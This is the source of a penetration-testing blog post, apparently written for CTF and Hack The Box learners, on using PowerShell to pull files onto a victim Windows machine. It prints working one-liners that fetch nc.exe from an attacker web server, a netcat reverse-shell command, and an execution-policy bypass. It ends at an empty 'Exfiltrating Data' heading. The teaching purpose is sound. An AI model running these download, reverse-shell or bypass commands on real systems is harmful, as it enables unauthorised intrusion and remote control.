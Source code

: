 ```yaml
---
layout: post
title:  "Powershell For Penetration Testers Downloading And Exfiltrating"
author: nanobyte
date:   2020-08-31
description: PowerShell for Penetration Testing, and how to download files to a victim machine, and exfiltrate data from the victim machine
tags: PowerShell Python
---
```


This next installment in the Powershell For Penetration Testers looks into how an attacker can introduce files to a victim machine through a PowerShell download, as well as how to use PowerShell to upload files rom a victim machine to your attacking box. I recently decided to continue on with this series to help other new comers into the field to learn as I learn. I recently used these skills on a recent Hack The Box machine, which if I remember to, will post the link to the writeup as a practical example.

<h1>Downloading Files with PowerShell</h1>

Using a PowerShell session, an attacker can quickly download files to a victim machine rather quickly. There are hundreds of examples mroe intense then what I will show you, but here are my two methods and go-to's which I attempt whenever I am performing an attack. In the examples to follow, I will assume that I am attempting to download `nc.exe` to the victim machine, which I would then plan to use to call a reverse shell back to my attacking machine. I will assume that the victim machine I am attacking is a Windows based Operating System, and I am using Kali Linux as my attacking box. Luckily, PowerShell is installed on all Windows platforms, including Windows IoT Core (hint for the Hack The Box machine).

Please also assume that my Kali Linux has a HTTP server running (This can be Apache, Python's SimpleHTTPServer, whatever you prefer) and has an IP of 10.10.10.2, where the Windows machine is 10.10.10.1. 

<h2>Invoke-WebRequest</h2>

The first example is a quick one that can easily be remembered, using a PowerShell cmdlet:

{% highlight bash linenos %}
powershell -c "mkdir c:\temp & Invoke-WebRequest -URI http://10.10.10.2/nc.exe -OUTFILE c:\temp\nc.exe"
{% endhighlight %}

This command first calls PowerShell to run a command with the `-c` flag. This is shortened from the `-Command` flag. This also assumes that you are on the machine with a command prompt. Then, the command is actually executed, first making a directory to save our `nc.exe` binary to. The following command then uses the `Invoke-WebRequest` cmdlet to download our file from the web server, and saves it to the `C:\temp` directory.

We could further this command by then calling `& c:\temp\nc.exe -e cmd.exe 10.10.10.1 1337` to connect back to our reverse shell (but that is outside of this article) to further our attack as a one-liner.

<h2>System.Net.WebClient<h2>

However, I frequently find that this is not the preferred method in Hack The Box or other CTF's to download files to victims. This brings us to our next approach, using PowerShell's `System.Net.WebClient`:

{% highlight bash linenos %}
powershell -c "mkdir c:\temp & (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.2/nc.exe','C:\temp\nc.exe')"
{% endhighlight %}

This is similar to the example above, creating the directory before downloading, only using a .NET class to download.

<h2>Remember -ExecutionPolicy Bypasss</h2>

Along with PowerShell, remembe that there are sometimes restrictions placed onto the PowerShell session you may be running. I already have an article describing how to beat these execution policies, found <a href="/2020/05/23/powershell-for-pentesters-beating-restricted-policies.html" target="_blank">here</a>. To make sure that you beat these restricted execution methods, quickly throw a `-exec bypass` before your download command:

{% highlight bash linenos %}
powershell -c "-exec bypass mkdir c:\temp & Invoke-WebRequest -URI http://10.10.10.2/nc.exe -OUTFILE c:\temp\nc.exe"
{% endhighlight %}

<h1>Efiltrating Data<h2>
